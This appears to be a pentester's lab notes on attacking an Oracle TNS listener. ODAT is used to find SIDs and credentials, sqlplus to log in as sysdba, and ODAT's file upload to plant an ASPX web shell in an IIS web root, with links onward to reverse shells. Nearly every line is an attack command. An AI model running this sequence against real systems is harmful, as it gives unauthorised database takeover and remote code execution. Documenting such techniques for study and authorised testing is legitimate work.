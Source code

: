 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo apt install odat
```

```bash - kali
sudo odat all -s $TARGET -p 1521
```

found sids:
EXAMPLE1
EXAMPLEDB

found creds:
$USER : $PASSWORD

```bash - kali
sudo apt install sqlplus
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1
```

```bash - kali
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

```bash - kali
sqlplus $USER/$PASWORD@$TARGET:1521/EXAMPLE1
```

```oracle - sql
select * from user_role_privs;
```

```oracle - sql
exit
```

```bash - kali
sqlplus $USER/$PASSWORD@$TARGET:1521/EXAMPLE1 as sysdba
```

```oracle - sql
select * from user_role_privs;
```

```bash - kali
odat all -s $TARGET -d XE -U $USER -P $PASSWORD --sysdba
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "test.txt" "/home/kali/Desktop/test.txt" 
```

```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USER -P $PASSWORD -d EXAMPLE1 --putFile "C:\\inetpub\\wwwroot\\" "cmdasp.aspx" "/home/kali/Desktop/cmdasp.aspx"
```

```html - firefox
firefox http://$TARGET/cmdasp.aspx
```

![[rlwrap]]

[[1._Reverse Shells (WIN)#Stageless Payloads]]

